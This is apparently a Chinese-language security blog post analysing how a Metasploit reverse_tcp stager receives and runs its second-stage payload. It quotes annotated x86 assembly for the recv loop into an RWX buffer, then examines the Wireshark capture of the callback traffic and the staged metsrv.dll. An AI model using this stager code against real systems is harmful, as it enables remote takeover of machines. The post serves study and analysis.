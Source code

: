 ```c
read_more: 
    push 0 ; flags 
    push esi ; length 
    push ebx ; the current address into our second stage's RWX buffer 
    push edi ; the saved socket 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
    call ebp ; recv( s, buffer, length, 0 );//recv函数的返回值会放到eax寄存器中，返回值是接收了多少字节的数据 
    cmp eax, 0//将eax与0比较，如果eax大于或等于0那么就执行jge跳转到read_successful处执行 
    jge read_successful
```

下面的汇编主要是判断载荷有没有接收完成，如果没有接收完成就通过jnz跳转继续调用read\_more下的代码，如果接收完成就直接ret。

```c
read_successful: 
    add ebx, eax ; buffer += bytes_received//跳过接收过得载荷的内存，因为不可能一直往一个内存地址里面塞载荷 
    sub esi, eax ; length -= bytes_received, will set flags//减去对载荷的大小 
    jnz read_more ; continue if we have more to read//如果sub esi,eax不等于0那么就执行jnz跳回read\_more继续接收，如果等于0，代表接收载荷完成，就不会跳转到read_more而是直接retn返回 
    ret ; return into the second stage
```

到了这里，我们已经接收到了真正的载荷了，但是现在还无法运行，因为在内存中没有人调用它，下面我们先通过wireshark来分析上线的过程，看metasploit都发过来了什么，在分析metsrv.dll是如何被调用的。

上线流量分析
------

服务端做好监听，wireshark做好过滤规则

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-aefb8634c477256a393711641fade5924b5d13b1.png)

成功抓取到了数据包  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-0311ac2b059d4885d109aad583d57a29bff63785.png)  
从下图中可以看到，我们先与metasploit建立了链接，对应上面asm\_reverse\_tcp函数，接着metasploit向我们发送了一个Len为4的数据包，此数据包中的数据代表载荷的总大小。

数据包中的数据，是0x2be43，因为数据包中的数据是按照小端存储的方式存储的，所以需要转换一下。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-80e717b4afe5ed22d11842fa61adade6e51441fb.png)

0x2be43=179779(十进制)，这个值对应了metasploit向我们发送的载荷大小。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-68d9abe6c24d636cb85eba39cdc5d83e0d8c05c1.png)

接着看后面的数据包，从图中可以看到，msf向我们发送了stage的开头，上面提到过msf不会一次性将整个stage发送过来，所以从图中可以看到metasploit一直在发送数据。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-c1e5ce4220881d752f25dc1ca00ea5daf5155ddb.png)  
我们来看下接收完成后，是如何调用stage的

stage执行过程
---------

stage是通过reflective dll(反射式注入)技术调用的，因为是上线原理所以不会涉及到此技术原理。
